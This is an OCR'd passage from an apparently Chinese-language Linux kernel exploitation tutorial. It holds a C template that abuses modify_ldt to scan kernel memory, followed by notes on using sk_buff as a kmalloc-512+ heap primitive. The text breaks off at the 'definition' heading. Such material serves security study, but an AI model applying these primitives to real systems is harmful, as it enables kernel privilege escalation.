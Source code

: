 ```c
    while(1) {
        /**
         * modify the ldt_struct->entries to `search_addr` here,
         * if you have to modify the ldt_struct->nr_entries at the same time,
         * set it to `0x8000 / 8` is just okay.
         *
         * Your code here:
         */

        if (!fork()) {
            /* child process */
            char *find_addr;

            syscall(SYS_modify_ldt, 0, buf, 0x8000);
            /* search for what you want there, this's an example */
            find_addr = memmem(buf, 0x8000, "arttnba3", 8);
            if (find_addr) {
                result_addr = search_addr + (uint64_t)(find_addr - buf);
            }
            write(pipe_fd[1], &result_addr, 8);
            exit(0);
        }
        /* parent process */
        wait(NULL);
        read(pipe_fd[0], &result_addr, 8);
        if (result_addr != -1) {
            break;
        }
        search_addr += 0x8000;
    }

    printf("\033[34m\033[1m[+] Obj found at addr: \033[0m%lx\n", result_addr);
```

## 0x06. sk_buff(大于kmalloc-512的任意obj读写) __GFP_NOMEMALLOC | __**GFP_NOWARN**

类似于`setxattr`，但`sk_buff`功能更强大，但仅适用于`kmalloc-512`以上的`obj`。

（开启`config_memcg_kmem`时，实测该`obj`会与`GFP_KERNEL`隔离）

### 功能

可以分配任意大于等于`kmalloc-512`的`obj`并写入内容，还可以读取内容同时`free`。

`sk_buff`本身是`linux kernel`中网络协议栈的一个结构体。其指示一个数据包的`head`、`tail`等信息。其结构体本身不太可控且会从独立的`slub`中分配，但它会将用户输入的内容用常规的`kmalloc`分配，其大小为用户数据加上一个`tail`尾部数据。由于尾部数据大小为`320`字节，因此最小分配的`obj`也是`kmalloc-512`。

### 定义

使用前需要先初始化。

